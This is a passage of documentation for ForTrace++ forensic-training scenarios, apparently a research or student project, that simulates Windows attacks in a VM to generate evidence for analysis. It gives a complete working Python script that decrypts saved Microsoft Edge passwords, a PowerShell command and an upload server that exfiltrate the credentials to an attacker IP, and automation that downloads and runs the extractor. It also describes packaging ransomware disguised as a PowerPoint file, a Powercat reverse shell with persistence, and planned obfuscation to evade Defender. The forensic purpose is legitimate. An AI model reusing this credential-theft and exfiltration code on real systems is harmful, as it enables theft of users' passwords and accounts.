3. **Logging & Artifacts:**
   - Log files documenting the extraction process.
   - The **stolen credentials stored in plaintext**.
   - **Network traces** of the password exfiltration.

---

## **Technical Implementation**

### **Prerequisites – Windows VM Preparation**
Before executing the scenario, the **VM must be prepared** with the required tools.

1. **Install Python (if not already installed)**
   ```powershell
   winget install -e --id Python.Python.3.11
   ```
2. **Install Required Python Packages**
   ```powershell
   pip install pypiwin32
   pip install pycryptodomex
   ```

- Use the Edge Browser to browse the following websites 
  1. Enter some random login credentials
  2. Select "Save Password" on the Browser Pop-up
```
https://www.paypal.com/signin
https://www.reddit.com/login/
https://x.com/i/flow/login
```


---

### **Password Extraction from Edge**
#### **Step 1: Locate the Edge Password Database**
Microsoft Edge (Chromium-based) **stores saved passwords in an SQLite database** located at:
```plaintext
C:\Users\<username>\AppData\Local\Microsoft\Edge\User Data\Default\Login Data
```
This database contains **encrypted** passwords, which require **AES decryption** using the Windows DPAPI (Data Protection API).
> **Source**: [Microsoft Edge password manager security | Microsoft Learn](https://learn.microsoft.com/en-us/deployedge/microsoft-edge-security-password-manager-security) 

#### **Step 2: Extract and Decrypt Saved Credentials**
The following Python script `edge_password_extractor.py` **extracts** and **decrypts** stored passwords:

```python
import os
import json
import base64
import sqlite3
import shutil
import win32crypt
from Cryptodome.Cipher import AES

# Define Edge file paths
EDGE_PATH = os.path.expanduser(r"~\AppData\Local\Microsoft\Edge\User Data")
LOGIN_DB_PATH = os.path.join(EDGE_PATH, "Default", "Login Data")
LOCAL_STATE_PATH = os.path.join(EDGE_PATH, "Local State")
TEMP_DB_PATH = os.path.join(os.environ["TEMP"], "Edge_LoginData.db")

# Extract AES key from Local State
def get_aes_key():
    with open(LOCAL_STATE_PATH, "r", encoding="utf-8") as f:
        local_state = json.load(f)
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])[5:]
    return win32crypt.CryptUnprotectData(encrypted_key, None, None, None, 0)[1]

# Decrypt AES-encrypted passwords
def decrypt_password(encrypted_password, aes_key):
    iv = encrypted_password[3:15]
    encrypted_data = encrypted_password[15:-16]
    cipher = AES.new(aes_key, AES.MODE_GCM, iv)
    return cipher.decrypt(encrypted_data).decode()

# Extract saved passwords
def extract_edge_passwords():
    shutil.copyfile(LOGIN_DB_PATH, TEMP_DB_PATH)  # Avoid file lock issues
    aes_key = get_aes_key()

    conn = sqlite3.connect(TEMP_DB_PATH)
    cursor = conn.cursor()

    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
    with open("extracted_passwords.txt", "w") as file:
        for row in cursor.fetchall():
            url, username, encrypted_password = row
            decrypted_password = decrypt_password(encrypted_password, aes_key)
            file.write(f"URL: {url}\nUsername: {username}\nPassword: {decrypted_password}\n\n")

    conn.close()
    os.remove(TEMP_DB_PATH)

extract_edge_passwords()
```

📌 **Explanation:**
- **Copies the database** before accessing it to prevent file locks.
- **Extracts the AES decryption key** from the `"Local State"` file.
- **Decrypts saved passwords** using **AES-GCM**.
- **Stores the credentials in a plaintext file (`extracted_passwords.txt`)**.

---

### **Exfiltrating Stolen Credentials to an Attacker's Server**
The extracted passwords can be **automatically uploaded** using PowerShell:

```powershell
Invoke-WebRequest -Uri "http://192.168.122.1:4444/upload" -Method POST -InFile "C:\Users\fortrace\Desktop\extracted_passwords.txt" -UseBasicParsing
```

> **Note:** Use the Port 4444 since it should be already prepared to be open from scenario1


### Exfiltration Server

The attacker needs a server to receive the stolen credentials. This is implemented with a simple Python HTTP server:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class FileUploadHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        """Handle raw file uploads via HTTP POST"""
        file_length = int(self.headers['Content-Length'])
        filename = "uploaded_passwords.txt"  # Save all uploads as this file

        with open(filename, "wb") as output_file:
            output_file.write(self.rfile.read(file_length))

        self.send_response(200)
        self.end_headers()
        self.wfile.write(f"File {filename} uploaded successfully!".encode())

if __name__ == "__main__":
    server_address = ("", 4444)  # Listen on port 4444
    httpd = HTTPServer(server_address, FileUploadHandler)
    print("Server listening on port 4444...")
    httpd.serve_forever()
```

**Server Explanation**:
- Creates an HTTP server that listens on port 4444
- Implements a POST handler that saves uploaded files
- All received files are stored as "uploaded_passwords.txt"

```sh
python http_upload_server.py
```

## ForTrace++ Automation Implementation

### Scenario Script: `scenario2.py`

```python
#!/usr/bin/env python3
"""A Windows 10 scenario for browser password exfiltration
The scenario is configured through the YAML located in this directory.

This scenario demonstrates how saved passwords in Microsoft Edge can be
extracted and exfiltrated by an attacker.

Typical usage:
    > cd ~/fortrace
    > source .venv/bin/activate
    > python scenarios/scenario2-browser_password_exfiltration/scenario2.py
    > cd ~/fortrace/scenarios/scenario2-browser_password_exfiltration
    > python -m http.server 8081 # On attacker machine
    > python http_upload_server.py
"""
import pathlib
from time import sleep

from fortrace.core.simulation_monitor import SimulationMonitor
from fortrace.core.virsh_domain import GraphicalVirshDomain
from fortrace.fortrace_definitions import FORTRACE_ROOT_DIR
from fortrace.utility.applications.application import (
    ApplicationType,
)
from fortrace.utility.applications.console.powershell import PowerShell
from fortrace.utility.logger_helper import setup_logger

# Create a logger using ForTrace++'s logger helper
logger = setup_logger(__name__)


def scenario_2():
    monitor = SimulationMonitor(
        pathlib.Path(
            FORTRACE_ROOT_DIR,
            "scenarios/scenario2-browser_password_exfiltration/scenario2.yaml",
        )
    )
    domain = monitor.participant[0].domain  # type: GraphicalVirshDomain
    config = monitor.participant[0].config

    domain.boot(
        start_sniffer=config["domain"]["start_sniffer"],
        snapshot=config["domain"]["snapshot"],
    )

    domain.env.login(config["domain"]["username"], config["domain"]["password"])

    # Log that the system is unattended
    logger.info("System state: Unattended Windows 10 machine with browser passwords stored.")

    browser_password_exfiltration(domain, config)
    monitor.post_scenario()


def browser_password_exfiltration(domain: GraphicalVirshDomain, config: dict):
    """
    Simulates the extraction and exfiltration of passwords from Microsoft Edge browser.
    Downloads a password extraction script, executes it to extract credentials,
    and uploads the extracted credentials to an attacker-controlled server.
    """

    # Log the beginning of the attack
    logger.info("Attacker: Initiating browser password exfiltration attack on Windows 10.")

    # Open a PowerShell instance with elevated privileges
    ps = domain.env.open_application(
        ApplicationType.TERMINAL, "Windows PowerShell", run_as_administrator=True
    )  # type: PowerShell

    sleep(2)  # Wait for PowerShell window to fully open

    # Step 1: Navigate to Desktop directory
    ps.send_command(r"cd C:\Users\fortrace\Desktop", get_output=False)
    sleep(1)

    # Step 2: Download the password extractor script from attacker server
    logger.info("Attacker: Downloading password extraction script.")
    download_command = r'Invoke-WebRequest -Uri "http://192.168.122.1:8081/edge_password_extractor.py" -OutFile "C:\Users\fortrace\Desktop\edge_password_extractor.py"'
    ps.send_command(download_command, get_output=False)
    sleep(3)  # Wait for download to complete

    # Step 3: Execute the password extraction script
    logger.info("Attacker: Executing password extraction script to retrieve browser credentials.")
    ps.send_command(r"python C:\Users\fortrace\Desktop\edge_password_extractor.py", get_output=False)
    sleep(5)  # Give time for script to extract passwords

    # Step 4: Exfiltrate the extracted passwords to attacker server
    logger.info("Attacker: Exfiltrating extracted passwords to remote server.")
    attacker_ip = config["backdoor"]["attacker_ip"]
    exfiltrate_command = f'Invoke-WebRequest -Uri "http://{attacker_ip}:4444/upload" -Method POST -InFile "C:\\Users\\fortrace\\Desktop\\extracted_passwords.txt" -UseBasicParsing'
    ps.send_command(exfiltrate_command, get_output=False)
    sleep(3)  # Wait for upload to complete

    # Log successful exfiltration
    logger.info(f"Attacker: Password exfiltration complete. Credentials sent to {attacker_ip}.")
    logger.info("Forensic Artifact: Extracted password file at C:\\Users\\fortrace\\Desktop\\extracted_passwords.txt")

    # Close the PowerShell application
    ps.close()


def setup_browser_credentials(domain: GraphicalVirshDomain):
    """
    Optional function to set up credentials in Microsoft Edge for testing purposes.
    This would involve automating the browser to visit websites and save credentials.
    """
    # This function can be implemented in the future to automate browser credential setup
    # For now, the scenario assumes credentials are already saved in the browser

    logger.info("Note: This function for setting up browser credentials automatically is not implemented.")
    logger.info("Please ensure the VM snapshot has pre-saved credentials in Microsoft Edge.")


if __name__ == "__main__":
    scenario_2()
```

**Scenario Script Explanation**:
- **SimulationMonitor**: Initializes the simulation with configuration from the YAML file
- **VM Preparation**: Boots the domain and logs in using credentials from the config
- **Attack Function**: The `browser_password_exfiltration()` function simulates the attack by:
  1. Opening PowerShell with admin privileges
  2. Downloading the extraction script from the attacker's server
  3. Executing the script to extract credentials
  4. Uploading the extracted credentials to the attacker's server via HTTP POST
- **Logging**: Comprehensive logging provides visibility into each phase of the attack
- **Future Enhancement**: Includes a stub function for automating credential setup that could be implemented later

### Configuration: `scenario2.yaml`

```yaml
name: Scenario 2
description: Configuration file for the 2nd Scenario.
collections:
  c-http-0:
    type: http
    urls: "scenarios/scenario2-browser_password_exfiltration/scenario_2_browsing.txt"
root: /var/tmp/ForTrace_scenario_2
overwrite_root: True
domain:
  username: "fortrace"
  password: "fortrace"
  name: "win10_defender"
  network: "default"
  os_type: OSType.WINDOWS
  desktop_env: DesktopEnvironmentType.Windows_10
  start_sniffer: False
  snapshot: "scenario2"
  dump_images: True
explorer:
  path: 'C:\Users\fortrace\Desktop\'
backdoor:
  attacker_ip: "192.168.122.1"
```

**YAML Configuration Explanation**:
- **General Settings**: Defines scenario name, description, and file paths
- **Domain Configuration**: Specifies VM settings including credentials, snapshot name, and OS type
- **Network Settings**: Defines the network configuration and attacker's IP address
- **Collection Settings**: References browsing URLs to be used in the scenario
- **Explorer Settings**: Configures the default file explorer path


## **Using the ForTrace++ Scenario**

### **Folder Structure**
Ensure your ForTrace++ installation follows this structure:

```
fortrace/
  ├── scenarios/
  │    ├── scenario1-backdoor/
  │    ├── scenario2-password_exfiltration/
  │    │   ├── edge_password_extractor.py
  │    │   ├── http_upload_server.py
  │    │   ├── scenario_2_browsing.txt
  │    │   ├── scenario2.py
  │    │   ├── scenario2.yaml
  │    │   └── uploaded_passwords.txt
  └── .venv/
```

### Step 1: Start the Attack Server
On the host machine, start two servers:
1. A file server to host the attack script:
   ```sh
   cd ~/fortrace/scenarios/scenario2-browser_password_exfiltration
   python -m http.server 8081
   ```

2. An exfiltration server to receive the stolen credentials:
   ```sh
   python http_upload_server.py
   ```

### Step 2: Configure Firewall Rules (if needed)
```sh
sudo firewall-cmd --zone=libvirt --add-port=8081/tcp --permanent
sudo firewall-cmd --zone=libvirt --add-port=4444/tcp --permanent
sudo firewall-cmd --reload
```

### Step 3: Launch the Scenario
```sh
cd ~/fortrace
source .venv/bin/activate
python scenarios/scenario2-browser_password_exfiltration/scenario2.py
```
> **Note:** Monitor execution via virt-manager.

---

## Security Implications & Countermeasures

### Vulnerabilities Demonstrated
- **Reliance on browser password storage**: Built-in browser password managers may not offer sufficient security
- **Unencrypted local storage**: Extracted passwords are stored in plaintext
- **Ease of decryption**: Browser encryption can be bypassed with access to the system

### Recommended Protections
1. **Use a dedicated password manager** with strong encryption
2. **Lock computers when unattended** to prevent unauthorized access
3. **Implement multi-factor authentication** on sensitive accounts
4. **Monitor network traffic** for suspicious data exfiltration
5. **Apply the principle of least privilege** for system access

## **Outlook & Future Improvements**
### **Automating the Entire Process with ForTrace++**
- Instead of manually **preparing saved credentials** on the VM, ForTrace++ can:
  - **Automate logging into websites** and selecting "Save Password."
  - **Use text recognition** to detect and confirm "Save Password" dialogs.
  - **Transmit mouse and keyboard inputs** to Edge using `perform_complex_action()`.

### **Reduce the VM preparation steps**
- Create a standalone `.exe` of the extraction script to eliminate Python dependency requirements
- This approach will be demonstrated in Scenario 3

### Alternative Attack Vectors
- Extend the scenario to target Firefox using firefox_decrypt:
  ```powershell
  winget install -e --id Mozilla.Firefox
  Invoke-WebRequest -Uri "https://github.com/firefox-decrypt/firefox_decrypt.py" -OutFile "C:\Users\fortrace\Documents\firefox_decrypt.py"
  ```

> Sources: [How Firefox securely saves passwords | Mozilla Support](https://support.mozilla.org/en-US/kb/how-firefox-securely-saves-passwords)   
> [GitHub - unode/firefox_decrypt: Firefox Decrypt is a tool to extract passwords from Mozilla (Firefox™, Waterfox™, Thunderbird®, SeaMonkey®) profiles](https://github.com/unode/firefox_decrypt?tab=readme-ov-file#non-interactive-mode)
---

# Scenario 3: Hard - File Encryption (Ransomware-like Behavior)

## Description

This scenario simulates controlled malware activity resembling a ransomware attack. System files are encrypted within a safe test environment to demonstrate ransomware behavior without causing actual damage.

## Technical Implementation

### Environment and Preparation
- Windows 10 virtual machine configured with ForTrace++
- Isolated network to prevent unintended spread
- Compatible with Windows Defender (remains enabled during execution)
- Pre-configured snapshot for quick setup and reset
- Place the Malware `scenario3-encryption/Business_Presentation.exe` on the Desktop of the Windows VM as preparation step

### Configuration (YAML)
YAML configuration file for flexible environment setup:

```yaml
name: Scenario 3
description: Configuration file for the 3rd Scenario.
root: /var/tmp/ForTrace_scenario_3
overwrite_root: True
domain:
  username: "fortrace"
  password: "fortrace"
  name: "win10_bios"
  network: "default"
  os_type: OSType.WINDOWS
  desktop_env: DesktopEnvironmentType.Windows_10
  start_sniffer: False
  snapshot: "scenario3_vga"
  dump_images: True
explorer:
  path: 'C:\Users\fortrace\Desktop\'
  path2: 'C:\Users\fortrace\Documents\'
```

**Key Configuration Elements:**
- **root**: Base directory for scenario resources and outputs
- **domain**: Virtual machine configuration including credentials and snapshot
- **explorer**: Paths for file creation and execution, targeting Desktop and Documents

### Execution Process

#### 1. Preparation Phase
- System boots from a clean snapshot
- User logs in with configured credentials
- Business documents are created to simulate a typical user environment

#### 2. Attack Simulation
- A malicious executable disguised as a PowerPoint presentation is placed on the Desktop
- When executed, the program encrypts all files in the Documents folder
- A ransom note is created on the Desktop
- Detailed logs of the encryption are saved to the Downloads folder

#### 3. Forensic Analysis
- After encryption, the system creates disk image dumps for analysis
- The VM is gracefully shut down to preserve evidence

## Python Script Explanation

The `scenario3.py` script orchestrates the entire simulation:

### Main Components:

#### 1. Environment Setup
- Loads configuration from YAML file
- Establishes connection to virtual domain
- Handles user authentication with retry mechanism

```python
monitor = SimulationMonitor(
    pathlib.Path(FORTRACE_ROOT_DIR, "scenarios/scenario3-encryption/scenario3.yaml")
)
domain = monitor.participant[0].domain
config = monitor.participant[0].config

domain.boot(
    start_sniffer=config["domain"]["start_sniffer"],
    snapshot=config["domain"]["snapshot"],
)
```

#### 2. Document Creation (`create_business_documents`)
- Creates realistic business folders and files:
  - Folders: Invoices, Contracts, Clients, Projects
  - Document Types: Invoices, contracts with realistic business content
- Uses Explorer and Notepad applications to simulate user activity

```python
def create_business_documents(domain: GraphicalVirshDomain, config: dict):
    # Opens File Explorer and navigates to Documents folder
    explorer = domain.env.open_application(ApplicationType.FILE_MANAGER, "File Explorer")
    documents_path = PureWindowsPath(config["explorer"]["path2"])
    explorer.browse_to_directory(documents_path)

    # Creates organizational folders
    folder_names = ["Invoices", "Contracts", "Clients", "Projects"]
    for folder_name in folder_names:
        explorer.create_folder(folder_name)

    # Creates realistic invoice documents with generated content
    # Creates contract documents with legal agreement text
```

#### 3. Malware Execution (`execute_encryption_malware`)
- Simulates user clicking on malicious PowerPoint file
- Malware encrypts all documents created in the previous step
- Creates ransom note and logs encryption activities

```python
def execute_encryption_malware(domain: GraphicalVirshDomain, config: dict):
    # Navigate to Desktop where malware is located
    explorer = domain.env.open_application(ApplicationType.FILE_MANAGER, "File Explorer")
    desktop_path = PureWindowsPath(config["explorer"]["path"])
    explorer.browse_to_directory(desktop_path)

    # Execute the malware by clicking on PowerPoint-like file
    explorer.focus_on_item("Business_Presentation.exe")
    explorer.send_key_combination("ret")  # Executes file with Enter key

    # Wait for encryption to complete and document results
    # Navigate back to Documents to show encrypted state
```

#### 4. Content Generation
The script includes intelligent content generation for realistic business documents:

```python
def generate_invoice_content():
    """Generate random invoice content for test files"""
    invoice_num = random.randint(10000, 99999)
    month = random.randint(1, 12)
    day = random.randint(1, 28)
    year = 2025
    date = f"{month:02d}/{day:02d}/{year}"

    # Generate random but realistic invoice details
    customer = random.choice(CUSTOMER_NAMES)
    item = random.choice(ITEM_NAMES)
    quantity = random.randint(1, 20)
    price = random.uniform(50, 500)

    # Format using invoice templates for authentic appearance
```

## Encryption Details

### Encryption Implementation
The script (`simple_xor_encrypt.py`) deploys:
- **XOR-based encryption**: Simple but effective for demonstration
- **Base64 filename encoding**: Prevents invalid characters while hiding original names
- **Hidden operation**: Runs invisibly in the background
- **Detailed logging**: Maintains record of all encryption actions

  


### Executable Creation
The malware is packaged as a convincing executable:

```sh
cd scenarios/scenario3-encryption/
pip install pyinstaller
pyinstaller --onefile --noconsole --icon=PowerPoint.ico ./simple_xor_encrypt.py
```

Key features:
- **PowerPoint icon**: Disguises malware as business presentation
- **No console window**: Runs invisibly to avoid user detection
- **Standalone executable**: Functions without dependencies

## Forensic Artifacts

The scenario creates several forensic artifacts for investigation:
- **Encrypted files**: Original business documents with altered extensions and content
- **Ransom note**: Text file created on Desktop ("YOU_GOT_HACKED.txt")
- **Log file**: Detailed encryption logs in Downloads folder
- **Process artifacts**: Memory traces and Windows event logs
- **Network activity**: Optional packet capture if sniffer is enabled
- **Disk image**: Complete VM disk capture for comprehensive analysis

## Using the ForTrace++ Scenario

### Step 0: Place the Malware on the Desktop of the VM
```
Business_Presentation.exe
```

### Step 1: Launch the Scenario
```sh
cd ~/fortrace
source .venv/bin/activate
python scenarios/scenario3-encryption/scenario3.py
```

## Visual Documentation

### Before Encryption

*Initial folder structure with organized business documents*

### Document Creation Process

*Creating realistic business documents for encryption target*

### Malware Execution

*Malicious executable disguised as PowerPoint presentation*

### After Encryption

*Documents folder after encryption with altered filenames and extensions*

## Demonstration Log

The system logs all activities during the scenario (`simulation.log`), providing a timeline of events:

```log
python scenarios/scenario3-encryption/scenario3.py
[      MainThread] :: 2025-02-27 20:32:42,741 - INFO     - Successfully created domain win10_bios
[      MainThread] :: 2025-02-27 20:32:42,742 - INFO     - Obtained IP address 192.168.122.176 for win10_bios
[      MainThread] :: 2025-02-27 20:33:24,377 - INFO     - Successfully booted domain win10_bios, which is now in login screen
[      MainThread] :: 2025-02-27 20:33:24,377 - INFO     - Login attempt 1/3
[      MainThread] :: 2025-02-27 20:34:02,909 - INFO     - Chose (609, 481, 627, 506) as mouse bounding box
[      MainThread] :: 2025-02-27 20:34:02,910 - INFO     - System state: Windows 10 machine, user is creating business documents.
[      MainThread] :: 2025-02-27 20:34:02,910 - INFO     - User: Creating business documents in Documents folder
[      MainThread] :: 2025-02-27 20:34:29,311 - INFO     - Open application File Explorer
[      MainThread] :: 2025-02-27 20:34:47,022 - INFO     - User: Creating folder 'Invoices'
[      MainThread] :: 2025-02-27 20:34:51,991 - INFO     - User: Creating folder 'Contracts'
[      MainThread] :: 2025-02-27 20:34:57,006 - INFO     - User: Creating folder 'Clients'
[      MainThread] :: 2025-02-27 20:35:01,910 - INFO     - User: Creating folder 'Projects'
[      MainThread] :: 2025-02-27 20:35:49,265 - INFO     - Open application Notepad
[      MainThread] :: 2025-02-27 20:36:15,556 - INFO     - User: Creating invoice document 'Invoice_1_2546.txt'
[      MainThread] :: 2025-02-27 20:37:01,031 - INFO     - Open application Notepad
[      MainThread] :: 2025-02-27 20:37:22,597 - INFO     - User: Creating invoice document 'Invoice_2_5827.txt'
[      MainThread] :: 2025-02-27 20:38:06,832 - INFO     - Open application Notepad
[      MainThread] :: 2025-02-27 20:38:31,773 - INFO     - User: Creating invoice document 'Invoice_3_3542.txt'
[      MainThread] :: 2025-02-27 20:39:21,917 - INFO     - Open application Notepad
[      MainThread] :: 2025-02-27 20:40:06,335 - INFO     - User: Creating contract document 'IT_Service_Agreement_2025.txt'
[      MainThread] :: 2025-02-27 20:40:22,486 - INFO     - User: Business documents have been created successfully
[      MainThread] :: 2025-02-27 20:40:22,486 - INFO     - User: Notices a PowerPoint file on Desktop
[      MainThread] :: 2025-02-27 20:40:56,994 - INFO     - Open application File Explorer
[      MainThread] :: 2025-02-27 20:41:15,621 - INFO     - User: Executes what appears to be a PowerPoint presentation
[      MainThread] :: 2025-02-27 20:41:39,831 - INFO     - System: Encryption process running in background
[      MainThread] :: 2025-02-27 20:41:50,314 - INFO     - Attack: Files in Documents folder have been encrypted
[      MainThread] :: 2025-02-27 20:41:50,315 - INFO     - Attack: Ransom note 'YOU_GOT_HACKED.txt' created on Desktop
[      MainThread] :: 2025-02-27 20:41:50,315 - INFO     - Forensic Artifact: Encrypted files in Documents folder
[      MainThread] :: 2025-02-27 20:41:50,315 - INFO     - Forensic Artifact: Log file in Downloads folder
[      MainThread] :: 2025-02-27 20:41:56,710 - INFO     - Will create a backup of sdc in /var/tmp/ForTrace_scenario_3/win10_bios
[      MainThread] :: 2025-02-27 20:43:01,787 - INFO     - Image dump of win10_bios completed. Took 63986ms
[      MainThread] :: 2025-02-27 20:43:35,468 - INFO     - Successfully shutdown win10_bios
[      MainThread] :: 2025-02-27 20:43:35,469 - INFO     - Scenario post-processing completed
[      MainThread] :: 2025-02-27 20:43:35,470 - INFO     - Scenario completed successfully
```

## Future Extensions

- **Email Delivery**: Extend the scenario with an email client to simulate phishing delivery
- **Macro-Based Infection**: Create malicious Office documents (.docm) with encoded macros
- **Network Propagation**: Simulate lateral movement across multiple systems
- **Anti-Analysis Techniques**: Add evasion capabilities to demonstrate advanced malware
- **Decryption Component**: Create companion decryption tool for educational purposes

--- 


## Expected Artifacts and Analysis

For all scenarios, the following artifacts are expected:

- **Log Files:** Detailed logs documenting timestamps, execution flow, and types of performed actions.
- **System Changes:** Recorded modifications to system configurations, file attributes, and new or altered services/processes.
- **Network Activity:** Documentation of network access and connections (e.g., using pcap files).
- **Temporary Files and Memory Dumps:** Snapshots of RAM and temporary files providing clues about malware activity.

Forensic analysis (e.g., via Autopsy) should reconstruct the exact attack flow and identify the techniques used.

### Converting `.raw` to `.e01` on EndeavourOS

This process is particularly useful for forensic analysis with tools such as **Autopsy** and **Magnet AXIOM**.

#### Prerequisites
To convert a `.raw` disk image to the `.e01` (Expert Witness Format) on EndeavourOS, the `libewf` package is required, which provides the necessary tools.

#### Install `libewf`
On EndeavourOS (Arch-based), install `libewf` using `yay`:

```bash
yay -S libewf
```

#### Converting `.raw` to `.e01`
Once `libewf` is installed, `ewfacquire` can be utilized.

#### Using `ewfacquire`
For interactive acquisition, including the addition of metadata, the following command can be executed:

```bash
sudo ewfacquire -t output input.raw
```

Upon execution, prompts will request details such as case number, description, and examiner name.

#### Verifying the `.e01` Image
After conversion, verification of the `.e01` file integrity can be performed using:

```bash
ewfinfo output.e01
```

This command will display metadata and confirm the proper formatting of the file.

---

## Summary and Conclusion

This documentation has detailed three distinct attack scenarios that have been simulated using ForTrace++ in a Windows virtual machine. The scenarios provide insight into common attack 
vectors while producing forensic artifacts that are valuable for research and forensic training.

### Overview of Scenarios
1. **Backdoor Installation:**
   Demonstrates how a physical attack in an unsecured environment can lead to persistent remote access.
    - This scenario simulates a situation in which an unattended Windows 10 machine is exploited to install a persistent reverse shell. The attack script downloads the Powercat payload, dot-sources it to load the function into memory, executes a reverse shell immediately, and creates a scheduled task that re-launches the reverse shell upon user logon.  

2. **Password Exfiltration from Browser Databases:**
   Highlights the risks of storing passwords insecurely in browsers and underscores the necessity of using secure password managers.

3. **File Encryption (Ransomware-like Behavior):**
   Shows how malicious and disguised programs can encrypt critical data, disrupting business operations.

These scenarios provide both a practical insight into common attack vectors and valuable case studies for forensic analysis. The combination of YAML configuration and Python automation with ForTrace++ ensures a repeatable and controlled workflow—ideal for training and research purposes.

### Evaluation and Usability of ForTrace++

ForTrace++ has proven to be a powerful framework for simulating complex attack scenarios in a controlled virtual machine environment. The following points summarize the evaluation and usability aspects:

### Environment Preparation
- **Multiple manual configuration steps** required for VM simulation
- **Manual processes** necessary (disabling Windows Defender, network configuration)
- **Improvement potential** through increased automation
  - Some possible Improvements are described in this documentation
  - Such as the preconfiguration of the Windows ISO with `unattend.xml`
  - Or the use of shell scripts to automate the VM creation with libvirt
- **User experience** may be hindered by complex setup requirements

### Documentation Quality
- **Documentation complexity** impedes rapid onboarding
- **Function usage sometimes unclear** (e.g., [PowerShell interface](https://fortrace.readthedocs.io/en/latest/source/fortrace.utility.applications.console.html#module-fortrace.utility.applications.console.powershell))
- **Example scenarios** were in some cases more instructive than formal documentation
  - Would be nice to have a direct example use inside the documentation for better understanding how to use it in own scenarios
- **Steep learning curve** for users with limited Python experience

### Efficiency Analysis
- **Time investment** higher for scenario creation than manual image preparation
- **Benefits realized** primarily with complex, reusable scenarios
- **Initial setup overhead** significant despite automation framework
- **Cost-benefit ratio** favorable only for repeated, complex forensic scenarios

### Error Handling Limitations
- **Error output lacks sometimes of sufficient detail** for effective troubleshooting
- **Debugging complexity** increased by documentation limitations
- **Troubleshooting guidance** inadequate for novice users
- **Error causes often unclear** leading to unresolvable issues
- For example the error at the next section: General Troubleshooting

--- 
## General Troubleshooting
- If you encounter these Errors while working with Fortrace++ it's propably because the VM doesn't have enough RAM (minimum: 8192 MiB)
  - **Update:** It happens again and again, so it's probably not due to too little RAM, as it now occurs despite the 8 GiB RAM.
  - The reason for the error has not yet been determined. 
  - However, it seems to be related to the laptop or the Fortrace installation, as it seems to work on the alternative laptop (with more resources)
  - **Update 2.0:** The final fix seemed to be to change the VM's video model from QXL to **VGA**!
```py
Traceback (most recent call last):
  File "/home/user/fortrace/scenarios/scenario1-backdoor/scenario1.py", line 104, in <module>
    scenario_1()
    ~~~~~~~~~~^^
  File "/home/user/fortrace/scenarios/scenario1-backdoor/scenario1.py", line 52, in scenario_1
    domain.env.login(config["domain"]["username"], config["domain"]["password"])
    ~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/user/fortrace/src/fortrace/utility/desktop_environments/Windows/Windows.py", line 166, in login
    self._qs.mouse.init()
    ~~~~~~~~~~~~~~~~~~~^^
  File "/home/user/fortrace/src/fortrace/core/qemu_monitor.py", line 61, in init
    self.find_mouse_ptr()
    ~~~~~~~~~~~~~~~~~~~^^
  File "/home/user/fortrace/src/fortrace/core/qemu_monitor.py", line 98, in find_mouse_ptr
    mouse_ptr_box = max(
        bounding_boxes, key=lambda x: x[0]
    )  # take the bounding box that is more to the right
ValueError: max() iterable argument is empty
```

## Potential Improvements (To-Do) - Outlook
- modify the unattend.xml to automatically execute the PowerShell scripts
  - allow the PowerShell Execution Policy
  - automatic Install of the Windows SPICE Guest Tools
  - deactivate Windows Defender already in the ISO, so the Malware Examples work without interruption
- Development of Malware that is not already detected by Windows Defender by using obfuscation techniques.
- Further development of automation scripts to simulate even more realistic attack scenarios.
- Incorporate additional steps into the scenario, such as using an email client to receive an email containing a Word document with a malicious macro.
- Evaluation and comparison of results with real-world attack data.
---
